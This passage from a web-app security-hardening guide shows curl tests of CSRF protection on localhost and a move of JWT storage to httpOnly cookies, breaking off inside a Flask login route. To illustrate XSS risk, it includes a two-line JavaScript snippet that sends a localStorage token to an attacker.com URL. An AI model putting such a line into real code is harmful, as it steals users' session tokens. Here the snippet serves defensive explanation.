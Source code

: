 ```javascript
};
```

### Testing CSRF Protection

```bash
# 1. Should succeed (with CSRF token)
TOKEN=$(curl -c cookies.txt http://localhost:5000/api/csrf-token | jq -r '.csrf_token')
curl -b cookies.txt -X POST http://localhost:5000/api/upload \
  -H "X-CSRFToken: $TOKEN" \
  -H "Authorization: Bearer <jwt-token>" \
  -F "file=@test.tar.bz2"

# 2. Should fail with 400 (missing CSRF token)
curl -X POST http://localhost:5000/api/upload \
  -H "Authorization: Bearer <jwt-token>" \
  -F "file=@test.tar.bz2"

# Expected: {"error": "CSRF token missing"}
```

---

## Feature 2: httpOnly Cookies for Token Storage

### Problem
JWT tokens stored in localStorage are vulnerable to XSS attacks:
```javascript
// Malicious script can steal token
const token = localStorage.getItem('token');
fetch('https://attacker.com/steal?token=' + token);
```

### Solution
Store tokens in httpOnly cookies that JavaScript cannot access.

### Implementation

#### Backend Changes

**1. Modify Login Route to Set Cookie**
```python
# backend/auth_routes.py
@auth_bp.route('/login', methods=['POST'])
@limiter.limit("5 per minute")
def login():
    """User login"""
    db = SessionLocal()
    try:
        # ... existing login logic ...

        # Create access token
        access_token = create_access_token(user.id, user.username, user.role)

        # Update last login
        user.last_login = datetime.utcnow()

        # Create session record
        session = UserSession(
            user_id=user.id,
            token_hash=hash_token(access_token),
            expires_at=datetime.utcnow() + timedelta(hours=24),
            ip_address=request.remote_addr,
```